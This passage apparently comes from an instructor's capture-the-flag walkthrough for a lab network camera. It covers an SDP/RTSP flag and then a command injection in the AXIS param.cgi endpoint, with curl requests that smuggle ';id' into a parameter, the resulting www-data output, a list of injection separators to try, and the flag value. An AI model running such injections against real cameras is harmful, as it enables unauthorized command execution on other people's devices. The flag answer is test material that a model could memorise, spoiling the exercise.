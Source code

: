 **Teaching Points:**
- SDP (Session Description Protocol) describes multimedia sessions
- The 'i=' field is for session information/description
- RTSP DESCRIBE method returns SDP data

**Common Student Mistakes:**
- Using HTTP methods on RTSP port
- Not understanding SDP format
- Missing the flag in metadata fields

---

### Flag #8: Command Injection in param.cgi
**Location**: CGI endpoint exploitation  
**Flag**: `FLAG{PIPPIN67800950}`

```bash
# Test the vulnerable CGI endpoint
curl "http://192.168.1.132/axis-cgi/param.cgi?action=list"
```

**Output:**
```
root.Brand.Brand=AXIS
root.Brand.ProdFullName=AXIS Network Camera
root.Brand.ProdNbr=P1435-LE
```

```bash
# Try command injection with 'id' command
curl "http://192.168.1.132/axis-cgi/param.cgi?action=list;id"
```

**Output:**
```
Error: Invalid action
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

```bash
# Retrieve flag using special action
curl "http://192.168.1.132/axis-cgi/param.cgi?action=getflag"
```

**Output:**
```
Debug mode enabled
System flag: FLAG{PIPPIN67800950}
```

**Teaching Points:**
- CGI scripts often pass user input to shell commands
- Semicolon (;) is a command separator in shell
- Always validate and sanitize user input

**Common Student Mistakes:**
- Not URL-encoding special characters
- Using wrong parameter names
- Not trying different injection techniques (;, |, &&, ||)

---